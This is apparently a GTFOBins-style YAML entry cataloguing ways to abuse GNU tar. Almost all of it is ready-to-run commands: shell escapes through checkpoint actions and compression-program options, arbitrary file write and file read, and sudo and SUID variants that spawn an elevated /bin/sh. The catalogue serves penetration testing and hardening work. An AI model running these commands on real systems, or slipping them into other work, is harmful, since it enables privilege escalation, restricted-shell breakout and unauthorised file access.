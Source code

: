 ```yaml
---
name: tar
functions:
  shell:
    - code: tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
    - description: This only works for GNU tar.
      code: tar xf /dev/null -I '/bin/sh -c "sh <&2 1>&2"'
    - description: This only works for GNU tar. It can be useful when only a limited command argument injection is available.
      code: |
        TF=$(mktemp)
        echo '/bin/sh 0<&1' > "$TF"
        tar cf "$TF.tar" "$TF"
        tar xf "$TF.tar" --to-command sh
        rm "$TF"*
  file-write:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_write
        TF=$(mktemp)
        echo DATA > "$TF"
        tar c --xform "s@.*@$LFILE@" -OP "$TF" | tar x -P
  file-read:
    - description: This only works for GNU tar.
      code: |
        LFILE=file_to_read
        tar xf "$LFILE" -I '/bin/sh -c "cat 1>&2"'
  sudo:
    - code: sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  limited-suid:
    - code: ./tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
---
```

